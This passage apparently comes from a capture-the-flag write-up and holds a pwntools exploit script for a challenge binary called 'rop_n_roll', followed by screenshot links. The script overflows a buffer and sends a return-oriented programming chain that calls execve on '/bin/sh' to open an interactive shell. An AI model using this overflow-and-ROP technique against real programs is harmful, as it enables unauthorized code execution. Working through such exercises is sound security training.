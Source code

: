 ## 3.3

```python
from pwn import *
from sys import argv

proc = "./rop_n_roll"
context.log_level = "info"
context.binary = proc
elf = ELF(proc, checksec=False)
io = remote("", ) if argv[1] == 'r' else process(proc)

if args.G:
    gdb.attach(io, "b *0x401279")

pop_rdi_ret = 0x00000000004013a3
pop_rsi_r15_ret = 0x00000000004013a1
pop_rdx_rax_rbp_ret = 0x000000000040117f
binsh_addr = 0x404048
syscall_addr = 0x000000000040117d

io.recvuntil(b".\n")
io.sendline(b'a' * 498)
io.recvuntil(b".\n")
payload = b"b" * (16 + 5) + flat([pop_rdi_ret, binsh_addr, pop_rsi_r15_ret, 0, 0, pop_rdx_rax_rbp_ret, 0, 0x3b, 0, syscall_addr])
io.sendline(payload)
io.interactive()
```

![](https://pic.imgdb.cn/item/675edf16d0e0a243d4e436c4.png)


## 3.4

![](https://pic.imgdb.cn/item/675ede87d0e0a243d4e436ae.png)

![](https://pic.imgdb.cn/item/675ede73d0e0a243d4e436ac.png)

![](https://pic.imgdb.cn/item/675ef46dd0e0a243d4e43bad.png)

![](https://pic.imgdb.cn/item/675ef492d0e0a243d4e43bb2.png)



